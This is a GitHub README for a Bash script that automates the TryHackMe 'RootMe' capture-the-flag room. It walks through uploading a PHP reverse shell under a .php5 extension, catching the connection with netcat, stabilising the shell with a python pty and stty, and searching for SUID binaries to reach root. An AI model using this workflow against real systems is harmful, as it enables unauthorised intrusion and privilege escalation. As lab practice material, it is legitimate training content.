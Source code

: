 # RootMe-TryHackMe-via-Bash
A good practice for bash scripting language. This mini project gains user shell by execute the .sh file. Everything the user needs to know, will appear after the execution of the script.

You need the reverse_shell.php file from here ( https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php ) and change the IP Address to your Attacker Machine IP.

### USAGE
```
chmod +x rootme.sh
./rootme.sh
```

In the script there are these lines
```
echo "NAVIGATE TO http://$ip_addr:$line/panel"
echo "CHANGE THE IP ADDRESS IN THE rev.php FILE AND UPLOAD IT WITH .php5 EXTENTION"
echo "NAVIGATE TO http://$ip_addr:$line/uploads and click the rev.php5"
```
You should follow these steps after the NetCat appear on your terminal.

After you gain access you can use the followig commands to stabilize your reverse shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

Ctrl + z

stty raw -echo; fg
```

## ROOT FLAG

Use the following command and the GTFOBins (https://gtfobins.github.io/).
```
find / -user root -perm -4000 -print 2>/dev/null
```

